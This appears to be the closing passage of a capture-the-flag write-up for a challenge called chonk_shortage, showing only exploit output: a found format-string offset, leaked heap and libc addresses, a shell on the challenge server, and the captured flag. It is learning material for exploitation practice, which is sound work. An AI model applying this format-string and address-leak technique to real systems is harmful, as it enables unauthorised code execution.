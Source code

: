 ```
[*] Closed connection to chals.ctf.sg port 30101
[*] Found format string offset: 8
[+] chonk @ 0x7fca7c957010
[+] libc @ 0x7fca7cb6b000
[+] __strlen_avx2 @ 0x7fca7cd83098
[*] Switching to interactive mode
You have submitted:
                                                                                               
     7                                                           \x13             \x00
                \x00aaabaa\x980\xd8|\xca
Thanks, $ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd home
$ ls
chonk_shortage
$ cd chonk_shortage
$ ls
chonk_shortage
flag.txt
$ cat flag.txt
CTFSG{I_Th0nk3d_h4rd_4nd_r34ch3d_3nl1ght3nm3nt_a798f6a9020c53ecd0a358a90d83b869}
```

Flag: `CTFSG{I_Th0nk3d_h4rd_4nd_r34ch3d_3nl1ght3nm3nt_a798f6a9020c53ecd0a358a90d83b869}`
